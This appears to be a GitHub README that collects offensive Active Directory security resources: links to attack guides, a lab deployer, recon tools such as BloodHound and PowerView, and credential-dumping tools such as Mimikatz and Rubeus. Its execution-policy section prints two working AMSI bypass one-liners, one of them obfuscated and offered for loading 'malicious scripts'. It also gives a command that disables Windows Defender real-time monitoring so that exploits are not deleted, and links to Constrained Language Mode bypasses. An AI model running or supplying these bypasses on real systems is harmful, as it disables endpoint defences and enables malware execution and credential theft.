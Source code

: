 # AD-Security-Resources


<H2>Huge list of AD security resources available below :</H2>
  https://adsecurity.org/
  https://www.harmj0y.net/
  https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html
  https://beta.hackndo.com/


<H2> Setting up active directory lab : <H2> https://github.com/outflanknl/Invoke-ADLabDeployer 


<H2> Bypassing Powershell execution policy issues : </H2>

<h3>Github links - AMSI Bypass for loading malicious scripts: <h3> 
  <p>  https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell </p>
<h3> Something that works quickly </h3>
  <p>   sETItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} ) </p>

This works !!!
(Thanks - https://burmat.gitbook.io/security/hacking/domain-exploitation#user-and-computers-with-unconstrained-delegation)
[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)

Detailed Article on this subject : https://blog.f-secure.com/hunting-for-amsi-bypasses/


Constrained Language Mode : 
Constrained Language consists of a number of restrictions that limit unconstrained code execution on a locked-down system.  (https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)

Check the below for bypassing this 
https://github.com/padovah4ck/PSByPassCLM
https://chickenpwny.github.io/concepts/bypass/



Turning of Windows Defender - Real Time Monitoring (for not letting exploits to be deleted):
Set-MpPreference -DisableRealtimeMonitoring $true

<H2> Recon of active directory objects :</h2>
<p>PowerView / Powersploit: https://github.com/PowerShellMafia/PowerSploit</p>

AD Module :
  https://github.com/samratashok/ADModule

Bloodhound
  https://github.com/BloodHoundAD/SharpHound
  https://github.com/BloodHoundAD/BloodHound

Lateral Movement Automation :
  https://github.com/GoFetchAD/GoFetch

Credential Dumping for all attacks (PTH, Kerberoasting, Golden Ticket Attack, Silver Ticket Attack, Skeleton Key Attack:
Mimikatz : https://github.com/gentilkiwi/mimikatz

Spraykatz - Credentials gathering tool automating remote procdump and parse of lsass process
  https://github.com/aas-n/spraykatz

Mimikittenz - Reading credentians from process :
  https://github.com/putterpanda/mimikittenz

Benjamin Delpy's Kekeo 
  https://github.com/gentilkiwi/kekeo/

Vincent LE TOUX's MakeMeEnterpriseAdmin
  https://github.com/vletoux/MakeMeEnterpriseAdmin

Rubeus :
  https://github.com/GhostPack/Rubeus

<H2> Pingcastle - AD Security :
  https://github.com/vletoux/pingcastle



